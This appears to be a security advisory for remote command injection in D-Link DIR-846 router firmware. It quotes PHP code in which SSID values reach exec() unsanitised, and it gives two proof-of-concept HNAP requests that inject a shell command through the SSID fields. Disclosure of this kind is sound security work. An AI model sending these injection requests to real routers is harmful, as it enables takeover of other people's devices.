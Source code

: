 ### info of vulnerability
There are remote RCE vulnerabilities in D-Link router due to invalid sanitization so attackers could execute arbitrary code. 

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-846(100A35)

### trigger point
The first vulnerable code is in file /squashfs-root/www/HNAP1/control/ SetMasterWLanSettings.php.
```php
          ......
11        $data["ssid0"] = trim($option["wl(1).(0)_ssid"]);
          .....
14        $data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
          ......
70        $unicode_2 = $data["ssid1"];
71        exec("ssid_code set B2 2 ssid_tmp1 '" . $unicode_2 . "'");
72        $unicode_5 = $data["ssid0"];
73        exec("ssid_code set B5 0 ssid_tmp2 '" . $unicode_5 . "'", $str, $status2);
          ......
```
Attacker could inject evil command into `exec` function, so PoC1 is:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetMasterWLanSettings":{"wl(1).(0)_ssid":"aaa;touch /tmp/test1.php","wl(0).(0)_ssid":"aaa;touch /tmp/test2.php"}}

```

The second vulnerable code is in file /squashfs-root/www/HNAP1/control/ SetWizardConfig.php.
```php
           ......
130        $data["ssid0"] = trim($option["wl(1).(0)_ssid"]);
           ......
134        $data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
           ......
185        $unicode_2 = $data["ssid1"];
186        exec("ssid_code set B2 2 ssid_tmp1 $unicode_2");
187        $unicode_5 = $data["ssid0"];
188        exec("ssid_code set B5 0 ssid_tmp2 $unicode_5");
           ......
```
Attacker could also inject evil command into `exec` function easily, so PoC2 is:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetWizardConfig":{"wl(1).(0)_ssid":"aaa;touch /tmp/test1.phpp","wl(0).(0)_ssid":"aaa;touch /tmp/test2.php"}}
```
